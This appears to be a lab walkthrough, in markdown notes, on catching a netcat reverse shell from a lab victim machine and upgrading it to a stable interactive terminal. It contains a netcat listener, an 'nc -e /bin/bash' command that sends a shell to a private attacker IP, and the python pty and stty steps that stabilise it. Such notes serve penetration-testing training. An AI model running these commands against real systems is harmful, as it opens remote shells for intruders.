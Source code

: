 # REVERSE SHELL & UPGRADING ON VICTIM 1

## Section 1: INTERACTING WITH VIC 1

Remember that this portion is if you already established a exploit through web crawling during you passive reconnaissance on the Crawling a web app portion of the lab. 

### (ATTACKER)

```
nc -nlvp 4444
```

```
nc -e /bin/bash 192.168.122.209 4444
```

## Section 2: Upgrading Your Shell

### (VICTIM)

```
nc -e /bin/bash 192.168.122.209 4444
```



(THIS WILL TELL YOU WHAT VERSION YOUR SHELL IS)

```
python3 -V 
```



 (THIS PREVENTS SHELL BRAKING FROM RAW INPUT)


```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```



(BACKGROUND THE SHELL)


`(Ctl + z)` 


### (ATTACKER) 


(FOREGROUNDS SHELL)

```
stty raw -echo; fg
```



```
reset
```


### (VICTIM)

This is our `CHECK/CHANGE/CHECK` process

```
echo $TERM
```



(TELLS YOUR TERMINAL TYPE)

```
export TERM=xterm-256color 
```

```
echo $TERM
```

```
echo $SHELL
```

```
export SHELL=/bin/bash
```

```
echo $SHELL
```

### (ATTACKER)




(THIS TELLS YOU TERMINAL SIZE)

```
echo $TERM && tput lines && tput cols
```



### (VICTIM) 



(THIS CHANGES TERMINAL SIZE)

```
stty rows 38 columns 116 
```
